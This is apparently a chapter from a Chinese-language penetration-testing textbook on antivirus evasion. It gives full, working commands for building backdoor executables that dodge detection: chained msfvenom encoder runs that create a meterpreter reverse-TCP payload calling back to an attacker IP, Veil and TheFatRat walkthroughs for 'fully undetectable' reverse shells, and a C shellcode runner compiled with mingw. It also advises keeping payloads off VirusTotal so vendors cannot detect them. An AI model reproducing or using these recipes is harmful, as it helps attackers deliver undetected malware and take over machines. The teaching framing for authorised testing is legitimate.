






# 第十一章：防病毒规避

拥有防病毒软件的概念并不新鲜。这是一种常见的安全控制，用于保护用户免受恶意软件和其他类型的恶意软件的侵害。从历史上看，它一直专注于预防病毒感染。在您的渗透测试中，几乎不可能找到一个没有防病毒软件的客户。

在本章中，您将了解防病毒技术的发展以及它们变得更加复杂的方式。您将学习各种可以用于防病毒规避的技术，并了解可以帮助您利用这些技术的工具。您将学习如何对有效载荷进行编码以避免检测，并最终探索可以用于检查有效载荷检测率的在线工具。

随着本章的进行，您将学习以下主题：

+   防病毒技术的发展

+   防病毒软件规避的概念

+   开始使用防病毒规避

+   测试规避技术

# 技术要求

要按照本章中的示例和说明进行操作，请检查您是否具备以下技术要求：

+   Kali Linux 2019.1

# 防病毒技术的发展

威胁形势正在迅速发展。在过去的几年里，出现了攻击向量，如自动化攻击、无文件恶意软件、固件恶意软件、高级持续性威胁（APT）恶意软件，还有，别忘了，复杂的勒索软件。攻击者拥有一系列攻击手段，可以利用人工智能和机器学习。基于这些攻击的进展，防病毒软件不得不跟上。

# 淘汰旧技术

传统的防病毒软件，其目的是仅仅基于签名停止病毒，并根据模式查找文件系统或应用程序的变化，已经不再足够。尽管签名和基于模式的匹配仍然在使用，但存在弱点。例如，无法更新签名，或者跟上每天发布的大量恶意软件都会带来巨大风险。启发式扫描是防病毒软件分析代码与一组变量的能力，这些变量将指示病毒是否存在。这种方法使得能够检测到一组额外的病毒，但也可以被规避，因为变量可以被修改。防病毒软件的扫描和拦截能力有其好处，但这些也可以被规避。

现在存在的恶意软件增长速度太快，使得防病毒制造商无法跟上。

# 引入新技术

如今的防病毒软件已经发展，具有检测和防止隐藏漏洞利用的能力，利用威胁情报，对端点（包括应用程序、进程和内存）进行全面监控，自动警报，取证能力和数据收集。

当今的防病毒软件可以被称为下一代防病毒软件，并使用以下策略：

+   查看阻止使用典型方法绕过正常进程操作的利用技术。这种方法不考虑文件类型，而是考虑进程本身。

+   可以用于学习特定恶意文件的数百个变体的机器学习技术；而在旧的防病毒软件中，这需要一些人工干预和一个沙箱环境来测试每个变体。

+   超越磁盘的检测能力。例如，无文件恶意软件等恶意软件不会在磁盘上留下任何东西。传统的防病毒软件无法检测到这一点，但下一代防病毒软件可以。

+   人工智能的作用是进一步减少人类干预，使防病毒软件能够识别模式，将其与威胁联系起来，并使用新模式更新自己的数据库。

似乎这些下一代反病毒软件使规避变得不可能，但仍然是可能的。随着其防御能力的提高，我们可以利用的进攻工具也在不断改进。

# 反病毒规避的概念

在渗透测试的利用阶段，您需要在目标系统上运行代码。这可以通过钓鱼邮件、利用或社会工程来完成。您将遇到的阻碍是反病毒软件（无论是传统变体还是下一代变体）。绕过反病毒软件的最有效方法是创建自己的定制有效载荷。在我们深入创建有效载荷之前，让我们考虑一些技巧：

+   侦察在反病毒规避中起着重要作用。了解您的目标拥有什么是关键。如果您觉得想要一个定制的有效载荷，可以避开所有反病毒产品，那么您是在误导自己。花费时间来实现这一点将会太长，而且随着每个供应商积极改进其产品，您的有效载荷将很快被检测到。将有效载荷缩小到目标的反病毒软件。

+   一旦您有一个可用的 shellcode，您可能会在以后的渗透测试中再次重复使用它，而且它可能仍然有效。为了确保减少您的利用的检测能力，永远不要将其提交到 VirusTotal 等服务（本章后面将介绍），或任何其他在线扫描程序。这些在线资源通常会将样本提交给反病毒供应商，供应商又会用它来增强其检测能力。

+   简单是关键。不要选择带有大量功能的华丽有效载荷。记住，您只是试图禁用反病毒软件，然后使用更强大的工具。

+   利用您可以使用的资源。例如，Metasploit 具有可用于反病毒规避的模块。在线资源如 ExploitDB 有可以下载、定制和使用的 shellcode。

牢记这些技巧将有助于您在渗透测试职业中取得进展，因为您在规划反病毒规避时有一个很好的起点。

# 反病毒规避技术

既然我们已经确定了需要进行反病毒规避，让我们来看看存在的各种技术。以下是可以使用的最常见的技术。

# 编码器

编码器允许您避免在利用中导致其发生故障的字符。通过使用 MSFvenom，您可以访问多个编码器。编码工作是通过拆分有效载荷并添加额外的代码来掩盖真实的有效载荷。在有效载荷中添加解码指令，以便在运行之前对其进行解码。MSFvenom 具有一些内置的编码器，我们将在本章后面进行讨论。

# 自定义编译

使用 MSFvenom 的内置编码器并不像我们希望的那样高效。Metasploit 及其组件是反病毒制造商的一个不断关注的焦点，并且他们密切关注其中的编码器所做的改进。为了绕过这一点，您可以利用自定义编译来创建一个不可检测的有效载荷。查看 C 编程语言，有一些关键组件可以利用，以向您的代码添加随机性，以试图欺骗反病毒程序不要检测它。

# 混淆

混淆是修改有效载荷的过程，使其对反病毒软件不清楚，但仍然可以用于其预期目的。混淆有效载荷的一种方法是使用加密。可以使用 Hyperion 等工具（我们将在后面介绍）使用**高级加密标准**（**AES**）对有效载荷进行加密。一旦运行有效载荷，解密就会发生，有效载荷就能够执行。这种加密有助于减少反病毒软件的检测率。

当然，由于杀毒软件不断变得更好，仅仅使用一种规避方法是不可能的。没有杀毒软件规避的**灵丹妙药**。您需要结合一些技术来帮助降低有效负载的检测率。

# 开始使用杀毒软件规避

在进行渗透测试时，存在着您和客户之间定义的信任级别。当您将任何有效负载投放到他们的环境中时，例如规避杀毒软件以在您的系统中创建后门，您需要确保有效负载只连接回您。代码中不应该有任何可能导致客户环境真正妥协的错误。

在您学习本节中定义的各种工具时，请确保明确定义目标将连接回的系统 IP。这样做将确保您在职业生涯的初步学习阶段强化信任的概念。

# MSFvenom

MSFvenom 是 Metasploit 框架的命令行工具的一部分。它用于生成各种 shellcode，可用于提供对系统的后门。

MSFvenom 中的一些常见开关如下：

| -`-l` | 这用于显示每个类别（编码器、有效负载、格式、加密器等）中所有模块的列表。例如，使用`msfvenom -l payloads`将显示当前可用的有效负载集。 |
| --- | --- |
| -`-p` | 这定义将使用的有效负载。例如，使用`msfvenom -p windows/x64/meterpreter_reverse_https`命令将定义 meterpreter 反向 HTTPS 有效负载。 |
| -`-f` | 这定义了输出格式。例如，您可能想要创建一个`.exe`或`.c`文件。 |
| -`-b` | 这用于消除坏字符。杀毒软件会寻找诸如`\x00`之类的坏字符。 |
| -`-e` | 这用于定义将使用的编码器。例如，常用的编码器之一是`/x86/shikata_ga_nai`。 |
| -`-i` | 这用于定义对 shellcode 进行编码的最大次数。 |
| -`-a` | 这用于定义架构。例如，`-a x64`将创建一个 64 位的 shellcode。 |
| `--platform` | 这用于定义 shellcode 将针对的平台。例如，对于 Windows 操作系统，可以使用`--platform Windows`。 |

MSFvenom 有更多的选项和开关；前面的表格描述了在创建有效负载时通常使用的内容。

MSFvenom 允许您将多个命令链接在一起。这是通过在每个命令的末尾使用`| \`序列来完成的。

要使用一系列命令创建有效负载，请按照以下步骤进行。注意每个命令末尾的`| \`序列。

从终端窗口，输入以下命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o MSFV-payload.exe

```

当您完成输入上述命令后，您应该得到以下输出：


图 1：MSFvenom 命令链

在命令的第一行中，我们正在定义要使用的`meterpreter/reverse_tcp`有效负载。然后我们定义我们攻击主机的 IP（`LHOST`）和端口（`LPORT`）。然后我们使用原始格式（`-f`），并使用`shikata_ga_nai`编码器（`-e`）进行 15 次迭代（`-i 15`）。

在命令的第二行中，我们通过现在定义架构（`-a`），平台，这种情况下是 Windows（`--platform`），以及使用 9 次迭代的`x86/countdown`编码器进一步对原始文件进行编码。

最后，我们通过再次运行`shikata_ga_nai`编码器并使用`-f exe -o`选项创建一个`exe`文件来编译这个。

一旦命令执行，它将创建一个名为`MSFV-payload.exe`的后门文件，存储在`/root/Downloads/`文件夹中。

我们将在本章后面的*测试规避技术*部分测试此文件的检测率。

# Veil Evasion

Veil Evasion 工具套件可用于创建规避常见杀毒软件并生成反向 shell 的 shellcode。

安装 Veil 工具套件可以按以下步骤完成：

1.  在 Kali Linux 中打开一个终端窗口。

1.  使用`apt install -y veil`命令。这将下载 Veil 工具套件，所有依赖项，并为安装做好准备。`-y`命令用于在询问是否要安装软件时简单地预定义`yes`参数。

1.  一切都下载完成后，可以通过运行`veil`命令（参见以下屏幕截图）来开始安装。使用`s`选项进行静默安装。这仍会显示正在安装的组件，但您无需进行任何交互：



图 2：安装 Veil 组件

Veil 安装完成后，您可以在终端窗口中使用`veil`命令运行该工具。首次启动时，将显示主窗口（参见以下屏幕截图），其中将显示已加载的两个工具。使用特定工具使用`use [number]`命令；例如，要使用`Evasion`，您将使用`use 1`命令：



图 3：Veil 初始菜单

我们可以使用的工具是`Evasion`和`Ordnance`。这两个工具执行不同的功能，如下所示：

+   `Evasion`：用于生成可用于绕过防病毒软件的有效载荷。

+   `Ordnance`：用于生成可与`Evasion`一起使用的 shellcode。`Ordnance`消除了使用 MSFvenom 生成 shellcode 的需要。原因是随着 MSFvenom 的更新，它会破坏`Evasion`创建的有效载荷。

让我们使用 Veil 创建一个恶意有效载荷：

1.  使用`veil`命令启动`Veil`。

1.  Veil 启动后，我们将使用`Evasion`工具。输入`use 1`*：*



图 4：选择 Evasion 工具

1.  要查看有效载荷的完整列表，请输入`list payloads`命令。在撰写本文时，Veil Evasion 中有 41 个有效载荷可用。我们将使用`python/shellcode_inject/aes_encrypt.py`创建有效载荷。要选择此有效载荷，我们将使用与之关联的数字。

1.  要使用有效载荷，我们将发出`use 29`命令：



图 5：选择有效载荷

1.  在有效载荷中，我们有许多可以配置的选项。如果要配置这些选项，可以使用`set [option name] [value]`命令。例如，要配置`CLICKTRACK`选项，将使用`set CLICKTRACK 1`命令。我们现在不会配置任何选项，因此我们将输入`generate`以进行下一步。

1.  现在我们有与 shellcode 相关的选项（参见以下屏幕截图）。在这里，您将注意到我们可以利用`MSFVenom`、`Ordnance`、`Custom shellcode strings`等。我们将使用`Ordnance`来创建 shellcode。输入选项号`1`：


图 6：shellcode 选择

1.  当您输入选项`1`时，将进入`Veil-Ordnance`菜单（参见以下屏幕截图）。在这里，您有一些选项，如查看`payloads`和`encoders`。要查看有效载荷，输入`list payloads`命令：



图 7：Ordnance 有效载荷

1.  我们将使用`rev_https`有效载荷，使用`use 3`命令选择它。现在我们将为有效载荷选择选项。

1.  我们需要在这里定义一些选项。定义`LHOST`和`LPORT`变量。记住这是目标机器将连接回来的 IP 地址和端口。我还定义了使用内置`xor`命令的`Encoder`。您可以使用`set`命令定义这些设置。您的输出应该与以下类似，除了`LHOST` IP 地址：


图 8：定义有效载荷选项

1.  输入`generate`来生成 shellcode。现在您将看到 shellcode 的输出，并且 Veil 会要求您输入一个文件名（见下图）*.*给它一个名字并按*Enter*：



图 9：生成的 shellcode

1.  提供了输出文件的基本名称后，您可以选择一个选项来创建有效负载可执行文件。在这个演示中，我们将使用默认的`PyInstaller`。

1.  一旦过程完成，您将看到恶意可执行文件和源代码的位置显示*:*：


图 10：创建的恶意可执行文件

通过在目标机器上运行这个可执行文件，它将创建一个反向 shell 到您作为攻击者使用的机器。当然，我们仍然需要确定这个可执行文件是否会被任何防病毒软件检测到。我们将在本章的*测试规避技术*部分进行测试。

# TheFatRat

TheFatRat 是另一个可以用来生成不可检测有效负载的工具。它支持 Windows、Android 和 macOS 的有效负载。它有丰富的选项，比如以下：

+   自动化 Metasploit 功能（创建后门、防病毒规避、启动 meterpreter 监听等）

+   基于 Android APK 创建后门

+   文件泵（用于增加文件大小）

+   使用办公文件创建后门

TheFatRat 不是 Kali Linux 的默认组件。可以通过以下步骤安装：

1.  在 Kali Linux 中打开一个终端窗口，并使用以下命令克隆`TheFatRat`的存储库：

```
git clone https://github.com/Screetsec/TheFatRat.git
```

1.  克隆存储库后，使用以下命令导航到目录：

```
cd TheFatRat
```

1.  更改文件权限并使用以下命令运行设置脚本：

```
chmod +x setup.sh && ./setup.sh.
```

在这个命令中，我们正在改变`setup.sh`文件的权限，以便我们可以运行它。

1.  在安装过程中，将安装所有依赖项。

安装完成后，您可以使用`fatrat`命令运行 TheFatRat。

在启动过程中，TheFatRat 会提醒不要将生成的有效负载上传到 VirusTotal。我们将在本章的*测试规避技术*部分讨论这个问题。

让我们使用`TheFatRat`创建一个有效负载：

1.  从终端窗口，使用`fatrat`命令启动`TheFatRat`。

1.  菜单加载后，您会注意到有一些可以使用的选项：


图 11：TheFatRat 主菜单

1.  选择选项`2`以使用`Fudwin`创建`Fud`。

`Fud`是**Fully Undetectable Payload**的缩写。

1.  一旦`Fudwin`模块加载，我们有两个选项。我们将选择选项`2` - `慢但强大`。这个工具编译了一个带有 meterpreter 反向 TCP 有效负载的 C 程序：


图 12：使用 Fudwin 模块进行工具选择

1.  选择选项`2`后，您需要定义`LHOST`和`LPORT`选项。接下来，您需要选择目标操作系统的架构。可以是`x86`或`x64`。

1.  一旦选项被定义，工具将处理剩下的事情。它将把恶意有效负载编译成一个可执行文件，并存储在`TheFatRat`根文件夹中的`output`目录中。

一旦在远程系统上运行该文件，它将创建一个反向`tcp`后门到攻击机器。在*测试规避技术*部分，我们将比较这个有效负载的检测率和我们创建的其他有效负载。

# 自定义编译

自定义编译可以帮助大大减少检测能力。您可以利用互联网上可用的自定义 shellcode，并根据需要进行调整，以执行您想要的功能。

在本节中，我们将以基本水平介绍自定义 shellcode 的创建。Shellcode 的创建可能变得复杂，随着您在渗透测试职业中的进步，您将建立起编写复杂 shellcode 的技能。我们将使用 C 编程语言来介绍 shellcode 的创建。

诸如 Exploit-DB 之类的网站托管了社区发布的许多 shellcode。可以通过以下 URL 访问：[`www.exploit-db.com/shellcodes`](https://www.exploit-db.com/shellcodes)。

让我们使用 C 创建一个自定义 shellcode。

首先，我们将使用 MSFvenom 创建一个 shellcode 文件。让我们使用之前创建的相同 shellcode，但是这次我们将其输出到一个`.C`文件中：

1.  从终端窗口，使用`mkdir msfv-shellcode`命令创建一个新目录。

1.  使用`cd msfv-shellcode`命令导航到目录。

1.  现在，使用以下命令创建有效载荷：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f c -o MSFV-shellcode.c
```

执行了上述命令后，MSFvenom 将创建 shellcode 文件。

现在，我们需要添加一些变量，以便使用 C 编程语言进行编译。使用文本编辑器或 nano 编辑刚刚创建的`MSFV-shellcode.c`文件。

添加以下行，用**标记：

```
#include<stdio.h>
#include<string.h>

unsigned char buf[] = 
"\xbd\xa1\xe2\xe6\x8b\xd9\xeb\xd9\x74\x24\xf4\x5f\x2b\xc9\x66"
"\xb9\x1b\x01\x83\xef\xfc\x31\x6f\x12\x03\x6f\x12\x43\x17\x5c"
"\x54\x5a\x66\x22\xb1\x95\x4e\x51\x62\xd1\x2e\xa9\xa3\x7f\x68"
"\xd9\x32\xfc\x65\x1e\x05\x55\x6b\xdc\x31\x97\xb0\xa9\x85\xdb"
--snip--

int main ()
{
 printf("Shellcode Length: %d\n", strlen(buf));
 int (*ret)() = (int(*)())buf;

 ret();
}
```

在上述代码中，我剪切了 shellcode，以便可见所需的代码行。在您的 shellcode 文件中，`unsigned char buf [] =`行下面将有更多字符。

在上述代码中，我们添加了以下组件：

| `#include<stdio.h>` | 在这里，我们调用一个库，该库涉及输入和输出函数。 |
| --- | --- |
| `#include<string.h>` | 在这里，我们调用一个库来操作字符串，因为我们使用`strlen`函数来获取字符串长度。 |
| `int main` | 此字符串用于声明一个函数。在 C 编程语言中，`main`下的函数是程序加载时运行的函数。 |
| `printf("Shellcode Length: %d\n` | 此行用于发送打印输出并掩盖 shellcode 长度。 |

| `int (*ret)() = (int(*)())buf;`

`ret ()` | `int (*ret)()`用于声明一个指针，而`=(int(*)())buf;`是将要使用的指针。`ret()`调用该指针，然后指向运行的 shellcode。 |

添加了额外的代码后，我们现在可以将其编译为可执行文件（请参见以下屏幕截图）。这是使用`mingw32`编译器完成的，该编译器在安装 Veil Framework 时已安装。如果未安装，可以使用以下命令进行安装：

```
apt install mingw-w64
```

要将 shellcode 编译为可执行文件，请使用以下命令：

```
x86_64-w64-mingw32-gcc MSFV-shellcode.c -o MSFV-shellcode.exe 
```

我们得到以下输出：


图 13：将 shellcode 编译为可执行文件

现在，您有一个可执行文件，可以创建反向 shell。通过自定义编译过程，可以大大降低防病毒软件的检测率。通过添加额外的随机字符，可以进一步模糊检测率。

# 测试逃避技术

测试您的有效载荷有两种方法。一种方法是在实验室环境中使用目标系统的副本进行测试；然而，这并不总是可能的，因为您的客户使用的防病毒程序可能有许可要求。

您的另一个选择是将有效载荷的样本提交到 VirusTotal 等在线服务。

# VirusTotal

VirusTotal 被许多安全行业人员用来提交文件或 URL 进行恶意软件分析。VirusTotal 通过与 70 多个防病毒供应商交叉检查提交的文件来工作。VirusTotal 有一个限制，就是提交将与防病毒供应商共享，以帮助提高其检测能力。

当您构建自己的载荷时，您不希望与防病毒软件制造商共享。如果共享了，您的载荷的工作机会将大大减少，因为一旦防病毒软件制造商使用提交信号更新其检测能力，检测率将会增加。

VirusTotal 可以通过以下 URL 访问：[`www.virustotal.com/`](https://www.virustotal.com/)。

让我们看看我们在上一节中创建的载荷，以及它们的检测率。

**MSFvenom**的检测率为 71 中的 50，尽管我们使用了两个编码器和多次迭代：


图 14：MSFvenom 生成的 shellcode 检测率

测试使用相同 MSFvenom 载荷创建的自定义 shellcode 产生了明显较低的检测率，为 70 中的 8：


图 15：自定义 shell 代码检测率。

**Veil**的检测率为 70 中的 35。这比使用 MSFvenom 生成的要低得多：


图 16：Veil 生成的 shell 代码检测率

TheFatRat 的检测率为 70 中的 6。这远低于 MSFvenom 和 Veil。请注意文件名为`Powerfull-fud.exe`；TheFatRat 可能已生成一个普通的`Powerfull.exe`文件，也可以使用。那个的检测率为 70 中的 8：


图 17：TheFatRat 生成的 shellcode 检测率

我们可以看到不同的技术产生不同的结果。随着防病毒软件的发展，制作一个完全不可检测的载荷变得更加困难。然而，知道如何使用现有的工具将帮助您构建一个适合您的目标并且无法被其防病毒软件检测到的载荷。

# 总结

在本章中，您已经了解了防病毒软件的发展，以及它们如何开始利用机器学习和人工智能。您已经了解了可以用于规避防病毒软件的各种技术，以及可以用于创建不可检测载荷的不同工具。我们已经使用 shellcode 创建了一些载荷，并查看了它们在 VirusTotal 等在线服务中的检测率。

在下一章（第十二章，*在环境中保持控制*）中，我们将讨论持久性以及如何在受损网络中保持访问。

# 问题

1.  防病毒软件是如何发展的？

1.  列举两种防病毒软件规避技术。

1.  可以利用哪些工具来构建不可检测的载荷？

1.  使用自定义编译的 shellcode 有什么好处？

1.  一旦构建了您的载荷，您绝对不应该做什么？
